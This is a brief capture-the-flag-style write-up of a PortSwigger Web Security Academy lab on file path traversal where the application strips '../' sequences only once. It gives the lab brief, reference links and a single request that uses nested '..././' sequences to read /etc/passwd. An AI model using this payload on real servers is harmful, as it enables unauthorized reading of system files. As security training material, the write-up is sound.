 
# 14 - File path traversal, traversal sequences stripped non-recursively

This lab contains a file path traversal vulnerability in the display of product images.

The application strips path traversal sequences from the user-supplied filename before using it.

To solve the lab, retrieve the contents of the /etc/passwd file.


---------------------------------------------

References:

- https://portswigger.net/kb/issues/00100300_file-path-traversal

- https://portswigger.net/web-security/file-path-traversal

---------------------------------------------

Generated link: https://0a2a0030049b8f43822a9e64007d00ba.web-security-academy.net/


When accessing Home or a post we have GET requests like this one:



![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/1.png)




![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/2.png)

```
GET /image?filename=..././..././..././..././..././etc/passwd HTTP/2
```



![img](images/14%20-%20File%20path%20traversal,%20traversal%20sequences%20stripped%20non-recursively/3.png)